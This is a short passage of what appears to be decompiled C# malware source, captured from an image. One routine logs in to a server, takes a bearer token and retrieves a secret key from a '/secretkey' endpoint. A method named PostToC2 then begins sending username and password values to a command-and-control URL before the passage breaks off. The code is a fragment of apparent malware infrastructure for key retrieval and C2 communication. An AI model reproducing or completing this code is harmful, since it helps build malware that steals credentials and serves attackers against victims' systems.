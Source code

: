 ```csharp
					{
						Console.WriteLine("E: Failed to log in.");
						text = null;
					}
					else
					{
						string text2 = await loginResponse.Content.ReadAsStringAsync();
						string loginResponseBody = text2;
						text2 = null;
						JObject loginJson = JObject.Parse(loginResponseBody);
						JToken jtoken = loginJson["token"];
						string token = ((jtoken != null) ? jtoken.ToString() : null);
						if (string.IsNullOrEmpty(token))
						{
							Console.WriteLine("E: No token found in login response.");
							text = null;
						}
						else
						{
							client.DefaultRequestHeaders.Authorization = new AuthenticationHeaderValue("Bearer", token);
							HttpResponseMessage httpResponseMessage2 = await client.GetAsync(baseUrl + "/secretkey");
							HttpResponseMessage secretResponse = httpResponseMessage2;
							httpResponseMessage2 = null;
							Console.WriteLine("I: SecretKey: " + secretResponse.StatusCode.ToString());
							if (!secretResponse.IsSuccessStatusCode)
							{
								Console.WriteLine("E: Failed to retrieve secret key.");
								text = null;
							}
							else
							{
								string text3 = await secretResponse.Content.ReadAsStringAsync();
								string secretKeyBody = text3;
								text3 = null;
								JObject secretKeyJson = JObject.Parse(secretKeyBody);
								JToken jtoken2 = secretKeyJson["key"];
								string secretKey = ((jtoken2 != null) ? jtoken2.ToString() : null);
								Console.WriteLine("I: Secret Key retrieved");
								text = secretKey;
							}
						}
					}
				}
			}
			catch (Exception ex)
			{
				Console.WriteLine("Error: " + ex.Message);
				text = null;
			}
			return text;
		}

		private static async Task PostToC2(string url, string data, string username, string password)
		{
			using (HttpClient client = new HttpClient())
			{
				Dictionary<string, string> values = new Dictionary<string, string>
				{
					{ "username", username },
```